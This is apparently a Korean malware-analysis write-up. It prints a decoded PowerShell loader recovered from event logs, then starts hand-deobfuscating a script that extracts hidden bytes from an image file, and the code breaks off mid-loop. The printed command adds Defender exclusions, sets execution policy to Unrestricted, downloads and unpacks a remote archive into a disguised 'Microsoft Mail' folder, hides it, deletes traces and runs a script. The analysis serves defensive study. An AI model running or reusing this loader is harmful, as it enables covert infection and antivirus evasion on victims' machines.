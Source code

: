 ```
	CommandLine=Add-MpPreference -ExclusionPath "C:\Windows\System32"; $executionPolicyPath = "HKLM:\Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell"; $executionPolicyValue = "Unrestricted"; Set-ItemProperty -Path $executionPolicyPath -Name "ExecutionPolicy" -Value $executionPolicyValue; Add-Type -AssemblyName System.IO.Compression.FileSystem; function Test-InternetConnection { try { $request = [System.Net.WebRequest]::Create("http://www.google.com"); $request.Timeout = 10000; $request.Method = "HEAD"; $response = $request.GetResponse(); $response.Close(); return $true } catch { return $false } }; function Create-BaseDirectory { $directoryPath = "C:\Program Files\Microsoft Mail"; if (!(Test-Path -Path $directoryPath)) { New-Item -Force -ItemType directory -Path $directoryPath; Write-Output "[+] Base Directory Created" } else { Write-Output "[!] Base Directory Already Exists" }; Add-MpPreference -ExclusionPath "C:\Program Files\Microsoft Mail" }; function Download-File { $url1 = "https://www.7-zip.org/a/7z2401-x64.exe"; $dest1 = "C:\Program Files\Microsoft Mail\7z.exe"; $url2 = "https://drive.usercontent.google.com/u/0/uc?id=1OvkcHZnQd91akAGdaQLNWU_HxjNvv9Hl&export=download"; $dest2 = "C:\Program Files\Microsoft Mail\mail.zip"; $client = New-Object System.net.webclient; $client.DownloadFile($url1, $dest1); $client.DownloadFile($url2, $dest2); Write-Output "[+] Success Download" }; function PWUnzip { $install7z = "C:\Program Files\Microsoft Mail\7z.exe"; $zipFilePath = "C:\Program Files\Microsoft Mail\mail.zip"; $7zipPath = "C:\Program Files\7-Zip\7z.exe"; Start-Process $install7z /S -Wait -PassThru; & $7zipPath x $zipFilePath -y; mv rc "C:\Program Files\Microsoft Mail\" }; function Hide-Action { Remove-Item -Path "C:\Program Files\Microsoft Mail\mail.zip"; Remove-Item -Path "C:\Program Files\Microsoft Mail\7z.exe"; Remove-Item -Path "C:\Users\torden\Downloads\mail helper.zip"; Remove-Item -Recurse -Path "C:\Users\torden\Downloads\mail helper"; $End_Task = Get-Item "C:\Program Files\Microsoft Mail\" -Force; $End_Task.Attributes = "Hidden"; Write-Output "[+] Success Hidden_Action" }; Create-BaseDirectory; if (Test-InternetConnection) { Download-File; PWUnzip; Hide-Action }; cd "C:\Program Files\Microsoft Mail\rc"; & ".\system.ps1"                 

세부 정보: 
CommandInvocation(Add-Type): "Add-Type"
매개 변수 바인딩(Add-Type): 이름="AssemblyName"; 값="System.IO.Compression.FileSystem"

```

<br>

HostApplication=Powershell인 것으로 보아, 내가 실행한 powershell.ps1 스크립트에서 새로운 PowerShell을 띄우고 그 인자로(pipe를 통해 전달) CommandLine을 전달한 것 같다.

즉, 내가 실행한 스크립트는 위의 CommandLine을 디코딩해 실행하는 스크립트이다.

<br>

그러나 완전 빅 프라블럼

나는 powershell.ps1의 난독화를 해제하고 싶은 건데……. 스스로를 복호화해 실행하는 그런 건 아닌 것 같다….

수제로 난독화를 해제하기로 했다.

<br>

```powershell
$var10 = "Guide.dib"
$guide_path = Join-Path (Get-Location).Path $var10
$guide_fileData = [System.IO.File]::ReadAllBytes($guide_path)

$decoded_data = New-Object System.Collections.ArrayList
$var19 = 0
$var20 = 0

for ($var21 = 55; $var21 < 18304 ; $var21++) {
    $var19 = $var19 -bor ($guide_fileData[$var21]* [Math]::Pow(2, $var20))
    $var20++

    if ($var20 -eq 8) {
        if ($var19 -eq 0) {
            break
        }

        [void]$decoded_data.Add([byte]$var19)
        $var19 = 0
```